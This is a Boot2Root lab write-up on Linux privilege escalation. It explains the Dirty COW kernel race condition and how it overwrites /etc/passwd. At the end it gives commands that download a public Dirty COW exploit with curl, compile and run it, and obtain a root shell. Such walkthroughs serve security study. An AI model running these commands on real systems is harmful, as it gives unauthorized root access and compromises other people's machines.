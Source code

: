 

# Boot2Root 

## Privelege Escalation

Once connected as `laurie` our goal is to become `root`. The techniques used to become root or an higer priveleged user on a machine are called `privelege escalation`. Finding informations about it is super easy, there a lot of documentations and even some scripts to the job for you like [LinPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) or [LinEnum](https://github.com/rebootuser/LinEnum). 
 </br>

Some techinques are oriented on users permissions, misconfiguration or configuration weaknesses and even OS and kernel oriented. Each time that you find an application or software take a look at the version and verify if a `Common Vulnerabilities and Exposures (CVE)` exists. Some sites store and index them like [CVEDetails](https://www.cvedetails.com/) some other store scripts to exploit these CVEs like [exploitDB](https://www.exploit-db.com/).


## DirtyCow

After some infomations gathering and a lot of failures, we find that the kernel version of the machine is old:
```
laurie@BornToSecHackMe:~$ uname -a
Linux BornToSecHackMe 3.2.0-91-generic-pae #129-Ubuntu SMP Wed Sep 9 11:27:47 UTC 2015 i686 athlon i386 GNU/Linux
```
This version is `3.2` but the current one is `6.16`. </br>
While researching privilege escalation on Linux, some CVEs kept appearing in the search results. One of them, called [Dirty COW](https://en.wikipedia.org/wiki/Dirty_COW), exploits the Linux kernel to gain root privileges.
</br>


### What is Dirty COW ?

References: 
- https://github.com/thaddeuspearson/Understanding_DirtyCOW
- https://www.youtube.com/watch?v=kEsshExn7aE
- https://www.cs.toronto.edu/~arnold/427/18s/427_18S/indepth/dirty-cow/demo.html

Dirty Copy-On-Write (COW) is a vulnerability affecting Linux Kernel Versions 2.6.22 - 4.8.3. With this vulnerability, it is possible for an attacker to escalate their privilege via a race condition due to a problem in the way the Linux Kernel handles memory-management.


### What is a Race Condition ?

A race condition occurs when two or more threads can access the same shared data and then try to change that data at the same time, and unexpected results occur. As an example, consider two ATM machines. Both have access to the same bank account, and both can be accessed independently. If two people were to access the same bank account at the same exact time, and both withdrew $100, the bank account should treat both of these transactions as separate and reduce the balance of the bank acount by $200. However, if the memory is not being managed appropriately, it is theoretically possible that if both withdrawals happened at the same exact time, the bank account may only register one transaction, giving the people a free $100 bill.

### How it works ?

1. First a read-only file is opened like `/etc/passwd`
2. The file is then mapped in logical memory with `mmap` (still in read-only)
3. Finally 2 threads are launched. 
- The first one tells the kernel that the file mapped in memory is no longer used. 
- The second thread writes on the copy in the logical memory.  </br>
What happens next is that we continuously write on the copy of the file and "free" it. 
Because write can continue to perform current operations even in a context switching, like threads plus the fact that copy-on-write take a little bit of time, then some characters will be written in the original file.  </br>

By targeting a file like `/etc/passwd` we can overwrite the `UID` of an user giving him root priveleges.

```
curl https://raw.githubusercontent.com/firefart/dirtycow/refs/heads/master/dirty.c -o dirty.c

gcc -pthread dirty.c -o dirty -lcrypt

./dirty password

su toor
password: passowrd

id
uid=0(toor) gid=0(root) groups=0(root)
```